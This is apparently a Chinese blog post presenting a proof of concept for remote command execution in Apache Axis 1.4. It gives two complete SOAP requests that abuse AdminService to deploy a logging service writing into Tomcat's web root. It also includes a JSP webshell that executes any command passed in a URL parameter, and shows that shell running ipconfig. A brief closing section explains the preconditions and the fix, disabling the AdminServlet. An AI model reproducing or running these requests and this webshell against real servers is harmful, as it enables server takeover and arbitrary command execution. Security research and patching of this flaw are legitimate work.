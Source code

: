 ## Axis 1.4   远程命令执行（RCE） POC

###  环境准备
首先下载Axis1.4 ,web-inf 去掉adminserver注释

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/web-inf.jpg)
然后，开启enableremoteadmin 
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/config.jpg)
本人部署在tomcat8上
### 利用
#### 第一步：
通过services/AdminService 服务 部署webservice ,service开启一个写文件服务。这里我们文件名是./webapps/ROOT/shell.jsp，服务模块的工作路径是bin目录，这里利用先对路径写入ROOT目录，也就是tomcat默认根目录。

```
POST /axis/services/AdminService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1063

<?xml version="1.0" encoding="utf-8"?>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Body>
    <ns1:deployment
  xmlns="http://xml.apache.org/axis/wsdd/"
  xmlns:java="http://xml.apache.org/axis/wsdd/providers/java"
  xmlns:ns1="http://xml.apache.org/axis/wsdd/">
  <ns1:service name="RandomService" provider="java:RPC">
    <requestFlow>
      <handler type="RandomLog"/>
    </requestFlow>
    <ns1:parameter name="className" value="java.util.Random"/>
    <ns1:parameter name="allowedMethods" value="*"/>
  </ns1:service>
  <handler name="RandomLog" type="java:org.apache.axis.handlers.LogHandler" >  
    <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />   
    <parameter name="LogHandler.writeToConsole" value="false" /> 
  </handler>
</ns1:deployment>
  </soapenv:Body>
</soapenv:Envelope>
```

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/step1.jpg)
#### 调用创建的恶意service 写入webshell
```
POST /axis/services/RandomService HTTP/1.1
Host: localhost:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 878

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,java.io.*"%><% if (request.getParameter("c") != null) { Process p = Runtime.getRuntime().exec(request.getParameter("c")); DataInputStream dis = new DataInputStream(p.getInputStream()); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); }; p.destroy(); }%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>

```
返回500，不用管，但是文件已经创建成功了
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/stap2.jpg)
看我们ROOT目录下shell文件，虽然有些错误，但是不影响，因为是log模式，有追加内容
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/shell.jpg)
#### 第三部执行shell.jsp
访问 http://localhost:8080/shell.jsp?c=cmd%20/c%20ipconfig

同样忽略网页报错
![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd.jpg)
右键查看源码，可以看执行命令的结果。

![avatar](https://kibodwapon.github.io/2019/07/04/is-1-4-远程命令执行POC/cmd1.jpg)

### 影响和修复
默认情况下service远程管理没开启，也就是只能本地localhost访问，这种情况下可以结合ssrf和xxe进行利用，所以比较鸡肋，但是安全无小事，对于命令执行漏洞还是应该重视。修复的话，关闭admin服务即可，具体方法注释掉web-inf.xml ，然后重启tomat.
```
  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/servlet/AdminServlet</url-pattern>
  </servlet-mapping>

```

